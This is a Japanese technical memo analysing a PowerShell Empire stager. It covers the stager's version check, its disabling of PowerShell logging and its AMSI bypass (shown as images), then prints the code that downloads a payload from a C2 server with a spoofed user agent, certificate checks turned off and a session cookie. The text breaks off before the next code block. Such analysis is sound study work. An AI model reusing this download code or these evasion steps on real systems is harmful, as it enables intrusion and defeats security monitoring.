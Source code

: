 それでは見ていきましょう。まずは先頭の以下についてです。  
```powershell
IF($PSVeRSiOnTable.PSVersion.major -GE 3){...}
```

これは、powershellバージョンに関する確認であり、3以上である場合だけやる操作が2つ実行されてます。
1. powershellのロギング無効化
ここでは、Powershellのロギングの無効化を行っています。

![stagerの解説](https://github.com/proshiba/tech-memo/raw/main/hacking/images/empiredemo/stager01.png)

2. AMSIのバイパス
このあと、AMSIのバイパスを行います。AMSIはWindows10以降で実装されたスクリプト系のマルウェアに対する非常に重要な機能です。これを使うことでアンチウィルスなどは起動中のシェルで実行されるコマンドを監視できます。

![stagerの解説](https://github.com/proshiba/tech-memo/raw/main/hacking/images/empiredemo/stager02.png)

このAMSIのバイパスはスクリプト系マルウェアにとって最大の障壁と言えるかもしれません。  
これが突破できると大体の操作は行える様になります。  
つぎに、このスクリプトが外部通信するための変数定義がなされ、データのダウンロードが行われています。  
```powershell
$wc=new-object system.net.webclient;
$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};
$wc.headers.add('User-Agent',$u);
$wc.proxy=[system.net.webrequest]::defaultwebproxy;
$wc.proxy.credentials = [system.net.credentialcache]::defaultnetworkcredentials;
$Script:Proxy = $wc.Proxy;
# 中略(次に記載します)
$ser='https://penetrationtest.shibacker.xyz:443';
$t='/admin/get.php';
$wc.HEADERS.Add("Cookie","session=6Lbn2FXlfRKIasnIUmKcNiLqPYc=");
$data=$wc.downloaddata($ser+$t);
```

この次は重要なコードになります。それは以下です。  